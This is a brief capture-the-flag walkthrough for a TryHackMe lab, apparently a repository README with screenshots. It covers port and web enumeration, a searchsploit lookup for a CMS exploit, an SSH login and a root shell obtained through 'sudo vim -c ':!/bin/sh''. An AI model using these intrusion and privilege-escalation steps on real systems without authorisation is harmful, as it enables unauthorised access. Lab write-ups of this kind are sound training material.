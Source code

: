 # Simple CTF from tryhackme

## Step 1: Nmap scan
_nmap (an ip here)_  
![image](https://user-images.githubusercontent.com/12968503/124926209-26733c80-dff5-11eb-9ab6-4e559e7779c8.png)

_nmap -sC -sV (an ip here)_  
![image](https://user-images.githubusercontent.com/12968503/124926456-73571300-dff5-11eb-8bec-40eee45d4545.png)






## Step 2: Web Enum
_nikto -h http://the-ip-here_  
![image](https://user-images.githubusercontent.com/12968503/124926936-fb3d1d00-dff5-11eb-85ca-f4200a26c2b8.png)

_dirb http://the-ip-here_  
![image](https://user-images.githubusercontent.com/12968503/124927137-317a9c80-dff6-11eb-820a-bc51402c7a72.png)

_gobuster dir -u http://the-ip-here --wordlist /usr/share/wordlists/dirb/common.txt_  
![image](https://user-images.githubusercontent.com/12968503/124927672-cda4a380-dff6-11eb-9aa4-87e0b61de8a4.png)

According to the web enum the site is using a Simple CMS for their webserver
![image](https://user-images.githubusercontent.com/12968503/124927995-1f4d2e00-dff7-11eb-9fba-59cdb6494766.png)

![image](https://user-images.githubusercontent.com/12968503/124928133-43a90a80-dff7-11eb-8fad-21ee9e0d9f58.png)

We now have the version number of the CMS

## Step 3: Exploit DB
searchsploit (any service and version number you want to look up)

![image](https://user-images.githubusercontent.com/12968503/124928440-7eab3e00-dff7-11eb-9ae0-f39ad08b551c.png)

Now run the exploit against the simple directory and you should get the credentials

## Step 4: Login to SSH
Once logged in look around  
Check for SUID files with:  
_find / -perm -u=s -type f 2>/dev/null_  
Nothing in here

Check for sudo privs with sudo -l  
![image](https://user-images.githubusercontent.com/12968503/124932230-cc757580-dffa-11eb-9caf-4a4e6ccfa87d.png)

As it turns out the user can run Vim as root

## To get Root 
open vim by using:  
sudo vim -c ':!/bin/sh'

![image](https://user-images.githubusercontent.com/12968503/124931837-7e607200-dffa-11eb-9b6d-adb7af586b5f.png)

## Bonus
If you look in FTP you can get a text file called ForMitch  
![image](https://user-images.githubusercontent.com/12968503/124933220-a0a6bf80-dffb-11eb-93ff-55674c025b58.png)
